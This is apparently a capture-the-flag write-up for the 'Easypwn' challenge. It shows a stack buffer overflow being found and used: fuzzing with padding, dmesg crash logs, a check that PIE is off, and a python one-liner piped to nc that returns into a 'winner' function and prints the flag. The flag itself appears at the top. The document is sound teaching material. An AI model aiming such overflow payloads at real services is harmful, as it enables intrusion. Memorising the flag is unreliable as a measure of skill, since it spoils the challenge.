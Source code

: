 # Easypwn
Author: toffe

Flag: `EPT{S0meth1n6_2_ge7_u_5t4rt3d}`
## Description
```
A nice introduction to pwn. Download the files to find the vulnerability, and exploit the host below to get the real flag.

`nc {{host}} {{port}}`
```

## Provided challenge files
* [easypwn.tar.gz](easypwn.tar.gz)


## Writeup

Tried to run it locally and run a whole lot of `A`'s as I guess this is a standard buffer overflow attack:

```bash
─$ python -c 'print("A"*45)' | ./easypwn
Hello!
What's your name? 
Goodbye, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
zsh: done                python -c 'print("A"*45)' | 
zsh: segmentation fault  ./easypwn
```

`dmesg` shows 

```log
[2846036.186229] easypwn[3901999]: segfault at 4141414141 ip 0000004141414141 sp 00007ffe72b935c0 error 14
```

I finetune and figure out that 40 A's is the magic number:

```bash
python -c 'print("A"*40 + "ABCDEF")' | ./easypwn
```

`dmesg` now shows that I overwrite the `Return Instruction Pointer` and the program segfaults.

```log
[2822529.208171] easypwn[3525302]: segfault at 464544434241 ip 0000464544434241 sp 00007ffff38f76b0 error 14
```

So now I can overwrite the RIP register. And I need to figure out the base address of this program. Running `checksec` shows that PIE is disabled so it starts at `0x400000`

![checksec](ss-checksec.png)

Ghidra also starts there so it will be easy to see the addresses of functions I can jump to by overwriting the return address. And by chance there is a function called `winner` at address `0x401236` that prints the flag.

![winner](ss-winner.png)

So adding that after 40 A's I get the flag!

```bash
─$ python -c 'print("A"*40 + b"\x36\x12\x40".decode());' | nc io.ept.gg 30004

Hello!
What's your name? 
Goodbye, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA6@!
You are Winner! Flag:
EPT{S0meth1n6_2_ge7_u_5t4rt3d}
```